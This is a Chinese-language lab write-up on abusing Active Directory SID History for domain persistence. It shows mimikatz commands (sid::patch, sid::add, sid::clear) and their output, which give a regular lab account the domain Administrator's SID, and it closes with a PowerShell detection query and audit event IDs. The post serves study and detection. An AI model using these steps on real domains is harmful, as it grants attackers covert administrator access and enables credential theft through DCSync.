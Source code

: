 ```yaml
---
title: SID History
date: 2020-12-31 23:59:50 +0800
categories: [域安全, TA0003持久化]
tags: [SIDHistory, TA0003持久化]     # TAG names should always be lowercase
typora-root-url: ..
---
```




## 0x00 简介

攻击者在获取Domain Admins权限后，可以通过SID Hisotry给普通账户提权，用于权限维持



**参考：**

[Sneaky Active Directory Persistence #14: SID History](https://adsecurity.org/?p=1772)



## 0x01 SID History

> [SID History](https://msdn.microsoft.com/en-us/library/ms679833(v=vs.85).aspx) is an attribute that supports [migration scenarios](https://technet.microsoft.com/en-us/library/cc779590(v=ws.10).aspx). Every user account has an associated [Security IDentifier (SID)](https://msdn.microsoft.com/en-us/library/windows/desktop/aa379571(v=vs.85).aspx) which is used to track the security principal and the access the account has when connecting to resources. SID History enables access for another account to effectively be cloned to another. This is extremely useful to ensure users retain access when moved (migrated) from one domain to another. Since the user’s SID changes when the new account is created, the old SID needs to map to the new one. When a user in Domain A is migrated to Domain B, a new user account is created in DomainB and DomainA user’s SID is added to DomainB’s user account’s SID History attribute. This ensures that DomainB user can still access resources in DomainA.
>
> The interesting part of this is that SID History works for SIDs in the same domain as it does across domains in the same forest, which means that a regular user account in DomainA can contain DomainA SIDs and if the DomainA SIDs are for privileged accounts or groups, a regular user account can be granted Domain Admin rights without being a member of Domain Admins.
>
> 
>
> Note: A regular user in a domain can contain the Enterprise Admin SID in its SID History from another domain in the Active Directory forest, thus “elevating” access for the user account to effective Domain Admin in all domains in the forest. if you have a forest trust *without* SID Filtering enabled (also called Quarantine), it’s possible to inject a SID from another forest and it will be added to the user token when authenticated and used for access evaluations.

域内用户用SID作为自己的ID，SID History属性相当于表明此用户还有其他的ID，因此也就可以访问授权这些SID能访问的资源。SID History的设计是用于账户跨域迁移时，保留对原有域资源的访问。

修改SID History需要Domain Admins权限，攻击者在获取Domain Admins权限后，可以通过SID Hisotry给普通账户提权，用于权限维持。



## 0x02 利用

即使有Domain Admins权限，但SID History属性是受保护属性，不能直接修改

```
PS C:\Users\Administrator> Get-ADUser win10 -Properties memberof,sidhistory


DistinguishedName : CN=win10,CN=Users,DC=ring2,DC=com
Enabled           : True
GivenName         :
MemberOf          : {}
Name              : win10
ObjectClass       : user
ObjectGUID        : 9f39c0a4-a5c2-440a-a17f-748c1b32726d
SamAccountName    : win10
SID               : S-1-5-21-2475887593-94489213-2292866110-1103
SIDHistory        : {}
Surname           : win10
UserPrincipalName : win10@ring2.com



PS C:\Users\Administrator> Set-ADUser win10 -Replace @{sidhistory="S-1-5-21-2475887593-94489213-2292866110-500"}
Set-ADUser : Access is denied
At line:1 char:1
+ Set-ADUser win10 -Replace @{sidhistory="S-1-5-21-2475887593-94489213- ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (win10:ADUser) [Set-ADUser], UnauthorizedAccessException
    + FullyQualifiedErrorId : ActiveDirectoryCmdlet:System.UnauthorizedAccessException,Microsoft.ActiveDirectory.Management
```



### mimikatz

由于SID Hisotory是受保护属性，因此需要先给NTDS服务(LSASS进程)打Patch

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sid::patch
Patch 1/2: "ntds" service patched
Patch 2/2: ERROR kull_m_patch_genericProcessOrServiceFromBuild ; kull_m_patch (0x00000057)
```



```
mimikatz # sid::add /sam:win10 /new:ring2\administrator

CN=win10,CN=Users,DC=ring2,DC=com
  name: win10
  objectGUID: {9f39c0a4-a5c2-440a-a17f-748c1b32726d}
  objectSid: S-1-5-21-2475887593-94489213-2292866110-1103
  sAMAccountName: win10

  * Will try to add 'sIDHistory' this new SID:'S-1-5-21-2475887593-94489213-2292866110-500': OK!
  
------------------------------------------------------------------------------------------------------------------------
mimikatz # sid::add /new:S-1-5-21-2475887593-94489213-2292866110-500 /sid:S-1-5-21-2475887593-94489213-2292866110-1103

CN=win10,CN=Users,DC=ring2,DC=com
  name: win10
  objectGUID: {9f39c0a4-a5c2-440a-a17f-748c1b32726d}
  objectSid: S-1-5-21-2475887593-94489213-2292866110-1103
  sAMAccountName: win10

  * Will try to add 'sIDHistory' this new SID:'S-1-5-21-2475887593-94489213-2292866110-500': OK!
```



```
mimikatz # sid::query /sam:win10

CN=win10,CN=Users,DC=ring2,DC=com
  name: win10
  objectGUID: {9f39c0a4-a5c2-440a-a17f-748c1b32726d}
  objectSid: S-1-5-21-2475887593-94489213-2292866110-1103
  sAMAccountName: win10
  sIDHistory:
   [0] S-1-5-21-2475887593-94489213-2292866110-500 ( User -- RING2\Administrator )

mimikatz # sid::lookup /name:win10
Name  : win10
Type  : User
Domain: RING2
SID   : S-1-5-21-2475887593-94489213-2292866110-1103
```



添加SID History后，win10账户有权限做DCSync获取krbtgt账户Hash，不过我测试时需要重新登录win10账户才生效。

![SneakyPersistence-AddSIDHistory-BobaFett-Exploit-PS-Krbtgt](/assets/img/SneakyPersistence-AddSIDHistory-BobaFett-Exploit-PS-Krbtgt.png)



清理SID History

```
mimikatz # sid::clear /sam:win10

CN=win10,CN=Users,DC=ring2,DC=com
  name: win10
  objectGUID: {9f39c0a4-a5c2-440a-a17f-748c1b32726d}
  objectSid: S-1-5-21-2475887593-94489213-2292866110-1103
  sAMAccountName: win10
  sIDHistory:
   [0] S-1-5-21-2475887593-94489213-2292866110-500 ( User -- RING2\Administrator )

  * Will try to clear 'sIDHistory': OK!
```



其实，做`sid::patch`后，已经可以通过`Set-ADUser`来修改SID History了，因此这种方式要重启NTDS服务才能彻底清理环境，重新置SID History为受保护属性。

![image-20201226121818155](/assets/img/image-20201226121818155.png)

```
Get-ADUser win10 -Properties sidhistory | foreach {Set-ADUser $_ -remove @{sidhistory=$_.sidhistory.value}};
```

![image-20201226123312325](/assets/img/image-20201226123312325.png)





## 0x03 检测

```
# Detect Same Domain SID History
Import-Module ActiveDirectory
[string]$DomainSID = ( (Get-ADDomain).DomainSID.Value )

Get-ADUser -Filter “SIDHistory -Like ‘*'” -Properties SIDHistory | `
Where { $_.SIDHistory -Like “$DomainSID-*” }
```

- 4765: SID History was added to an account.
- 4766: An attempt to add SID History to an account failed.